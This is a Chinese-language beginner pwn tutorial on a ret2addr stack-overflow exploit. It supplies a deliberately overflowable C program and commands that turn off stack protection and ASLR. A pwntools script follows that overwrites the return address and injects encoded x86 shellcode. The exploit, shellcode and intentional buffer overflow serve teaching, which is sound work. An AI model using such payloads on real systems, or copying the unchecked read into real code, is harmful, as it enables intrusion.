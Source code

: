 ```yaml
---
title: Pwn 入门（ret2addr)
permalink: /pwn-ret2addr
date: 2019-09-15 11:20:45
tags: 
 - Pwn
 - 网安
categories: 基础
---
```


最简单的 pwn 就是使用栈溢出返回到一个地址去执行shellcode，虽然见不到这种攻击方法，但是，对栈结构的理解还是很有帮助的。

<!-- more -->

ret2addr（return-to-address，**返回到确定地址执行**的攻击方法）

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

没有栈不可执行（NX），也没有地址随机化（ASLR）。这时候就直接使用地址覆盖就好。

## 0. 准备一下

首先要创建一个文件，`vuln.c`

```c
# include <stdio.h>

void func() {
    char buf[0x50];
    read(0, buf, 0x100);
    write(1, buf, 0x100);
}

int main() {
    func();
    return 0;
}
```

安装 32 位编译环境

```bash
apt-get install gcc-multilib g++-multilib
```

编译并关闭地址随机化

```bash
# 编译命令 
gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack  -no-pie

# 关闭地址随机化功能
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 1. 确定溢出位置

- 先在IDA里估计下缓存区大小，然后使用 `pattern create length`生成一段随机不重复的字符串。
- 然后在 gdb 中 r指令 运行程序，，由于栈溢出，导致原本的函数的返回地址无法执行。
- 使用 pattern offset addr 确定程序的返回地址，也就是应该输入的无效字符串的长度。

## 2. 确定返回地址

- 打开 core 转储功能 

  ```bash
  ulimit -c unlimited
  sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
  ```

- 运行程序，输入 上面获得的长度的无效字符串 + 4个任意字符（ESP）+ 4个任意字符（EIP）。此时程序会报错，然后把信息转储至 core 文件。

- 用 `gdb 程序名称 core`打开 core 文件。

- 此时ESP指向了所希望的 shellcode 的位置，也就是我们的自定义代码的位置。

  ```shell
  gdb-peda$ print $esp
  0xffffcf80
  ```

- 此时EIP应该填充为 shellcode 的地址，即此时ESP的值。

## 3. 编写利用脚本

shellcode 可以在 [shell-strom](http://shell-storm.org/shellcode/) 这里找到很多，也可以自己手写。

```python
from pwn import *
#context.log_level='debug'
p=process("./vuln") # 此处是程序的路径
payload='a'*92	# 此处的92是第一步所确定的无效字符串的长度
payload+=p32(0xffffcf80) #此处的地址是第二步时获得的 shellcode 地址
#shellcode脚本
payload+="\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload+="\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload+="\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload+="\x32\xc1\x51\x69\x30\x30\x74\x69"
payload+="\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload+="\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

p.send(payload)
p.interactive()#返回交互式界面
```

## 4. pwn

- 执行`python vuln.py`（即第三步的脚本文件）